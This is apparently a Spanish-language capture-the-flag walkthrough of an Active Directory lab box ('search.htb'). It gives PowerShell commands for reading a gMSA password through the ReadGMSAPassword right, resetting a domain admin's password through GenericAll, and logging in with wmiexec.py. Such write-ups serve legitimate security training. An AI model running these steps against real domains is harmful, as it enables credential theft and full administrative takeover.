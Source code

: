 Una vez dentro del nuevo directorio web, se nos proporciona un **form**, que si intentamos rellenarlo con la información de *Sierra.Frye*, su contraseña y en el campo de computer name ponemos el nombre de la maquina *research* 

------------
#### Abusing ReadGMSAPassword privilege

Una vez en la consola, ahora si podemos apoyarnos del **BloodHound** para buscar rutas potenciales para escalar privilegios. Vemos que como pertenecemos a nuestro grupo, podemos aplicar **ReadGMSAPassword** sobre un usuario. Como no tenemos manera de subir la herramienta que nos recomienda **BloodHound** podemos intentar explotarlo de manera manual, lo haríamos de la siguiente manera:

1. Verificamos que podemos leer la propiedad **msDS-ManagedPassword**: 
`Get-ADServiceAccount -Idetity '<victim-user>' -Properties 'msDS-ManagedPassword'`

2. Guardamos la query anterior en una variable:
`$gmsa = Get-ADServiceAccount -Idetity '<victim-user>' -Properties 'msDS-ManagedPassword'`

3. Continuamos con:
`$mp = $gmsa, 'msDS-ManagedPassword'`

4. Y para finalmente visualizarla:
`ConvertFrom-ADManagedPasswordBlob $mp`

5. Almacenamos el campo de **SecureCurrentPassword**
`$secpw = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword`

6. Creamos una credencial
`$cred = New-Object System.Management.Automation.PScredential '<victim-user', $secpw`

7. Ejecutar comandos:
`Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock { comando }`

-------------
#### Abusing GenericAll privilege (Resetting a user's password)  

Una vez podamos ejecutar comandos como el usuario capaz de cambiarle la contraseña al *domain-admin(tristan)* podemos proceder a cambiarle su contraseña de la siguiente manera:

	Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock { net user tristan.davies sexcott123$! }

Si todo ha salido bien, hemos sido capaz de cambiarle la contraseña al usuario *tristan*.

-----------
#### Gaining access with wmiexec

Dado que, si comprobamos con **crackmapexec** las credenciales del usuario al cual le acabamos de cambiar la contraseña y este nos dice que son correctas y además, el resultado esta acompañado con un **Pwn3d!** a un lado, podriamos conectarnos con **wmiexec.py** a la maquina victima como *domain admin*.

	~sexcott> wmiexec.py search.htb/tristan.davies@<ip>

Y estamos dentro de la maquina victima como *domain admin*











